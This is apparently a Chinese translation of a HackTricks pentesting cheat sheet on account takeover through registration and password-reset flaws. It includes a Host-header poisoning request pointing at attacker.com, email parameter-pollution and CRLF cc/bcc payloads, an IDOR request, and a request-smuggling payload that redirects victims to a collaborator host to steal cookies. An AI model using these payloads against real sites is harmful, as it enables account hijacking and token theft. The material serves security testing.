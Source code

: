 # 注册和接管漏洞

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 注册接管

### 重复注册

* 尝试使用现有用户名生成
* 检查变化的电子邮件：
  * 大写
  * \+1@
  * 在电子邮件中添加一些点
  * 电子邮件名称中的特殊字符（%00，%09，%20）
  * 在电子邮件后面放置黑色字符：`test@test.com a`
  * victim@gmail.com@attacker.com
  * victim@attacker.com@gmail.com

### 用户名枚举

检查是否可以确定应用程序中是否已经注册了用户名。

### 密码策略

创建用户时检查密码策略（检查是否可以使用弱密码）。\
在这种情况下，您可以尝试暴力破解凭据。

### SQL注入

[**查看此页面**](sql-injection/#insert-statement)以了解如何尝试通过**SQL注入**在注册表单中接管账户或提取信息。

### Oauth接管

{% content-ref url="oauth-to-account-takeover.md" %}
[oauth-to-account-takeover.md](oauth-to-account-takeover.md)
{% endcontent-ref %}

### SAML漏洞

{% content-ref url="saml-attacks/" %}
[saml-attacks](saml-attacks/)
{% endcontent-ref %}

### 更改电子邮件

注册后尝试更改电子邮件，并检查此更改是否被正确验证或是否可以更改为任意电子邮件。

### 更多检查

* 检查是否可以使用**一次性电子邮件**
* **长** **密码**（>200）会导致**拒绝服务（DoS）**
* **检查账户创建的速率限制**
* 使用username@**burp\_collab**.net并分析**回调**

## **重置密码接管**

### 通过引用者泄漏重置密码令牌 <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. 请求使用您的电子邮件地址重置密码
2. 单击重置密码链接
3. 不要更改密码
4. 单击任何第三方网站（例如：Facebook，Twitter）
5. 拦截Burp Suite代理中的请求
6. 检查引用者标头是否泄漏重置密码令牌。

### 重置密码篡改 <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. 在Burp Suite中拦截重置密码请求
2. 在Burp Suite中添加或编辑以下标头：`Host: attacker.com`，`X-Forwarded-Host: attacker.com`
3. 使用修改后的标头转发请求\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. 查找基于_host header_的密码重置URL，例如：`https://attacker.com/reset-password.php?token=TOKEN`

### 通过电子邮件参数重置密码 <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### API参数上的IDOR <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. 攻击者必须使用他们的帐户登录并转到**更改密码**功能。
2. 启动Burp Suite并拦截请求。
3. 将其发送到重复选项卡并编辑参数：用户ID/电子邮件\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### 弱密码重置令牌 <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

密码重置令牌应该是随机生成的，并且每次都是唯一的。\
尝试确定令牌是否过期或是否始终相同，在某些情况下，生成算法可能较弱且可被猜测。以下变量可能被算法使用。

* 时间戳
* 用户ID
* 用户电子邮件
* 名字和姓氏
* 出生日期
* 密码学
* 仅数字
* 小令牌序列（字符在\[A-Z,a-z,0-9]之间）
* 令牌重用
* 令牌过期日期

### 泄露密码重置令牌 <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. 使用API/UI触发特定电子邮件的密码重置请求，例如：test@mail.com
2. 检查服务器响应并查找`resetToken`
3. 然后在URL中使用令牌，如`https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### 通过用户名冲突进行密码重置 <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. 使用与受害者用户名相同但在用户名之前和/或之后插入空格的用户名在系统上注册，例如：`"admin "`
2. 使用您恶意的用户名请求重置密码。
3. 使用发送到您电子邮件的令牌重置受害者密码。
4. 使用新密码连接到受害者帐户。

平台CTFd易受此攻击影响。\
参见：[CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### 通过跨站脚本攻击实现账户接管 <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. 在应用程序内或子域中找到XSS，如果cookie范围限定为父域：`*.domain.com`
2. 泄露当前的**会话cookie**
3. 使用cookie对用户进行身份验证

### 通过HTTP请求走私实现账户接管 <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1. 使用**smuggler**检测HTTP请求走私的类型（CL、TE、CL.TE）\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2. 构造一个请求，将`POST / HTTP/1.1`覆盖为以下数据：\
`GET http://something.burpcollaborator.net HTTP/1.1 X:`，目的是将受害者重定向到burpcollab并窃取其cookie\
3. 最终请求可能如下所示
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
### 通过CSRF实现账户接管 <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. 创建CSRF的有效载荷，例如：“自动提交密码更改的HTML表单”
2. 发送有效载荷

### 通过JWT实现账户接管 <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token可能用于验证用户身份。

* 编辑JWT以更改用户ID/电子邮件
* 检查弱JWT签名

{% content-ref url="hacking-jwt-json-web-tokens.md" %}
[hacking-jwt-json-web-tokens.md](hacking-jwt-json-web-tokens.md)
{% endcontent-ref %}

## 参考资料

* [https://salmonsec.com/cheatsheet/account\_takeover](https://salmonsec.com/cheatsheet/account\_takeover)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
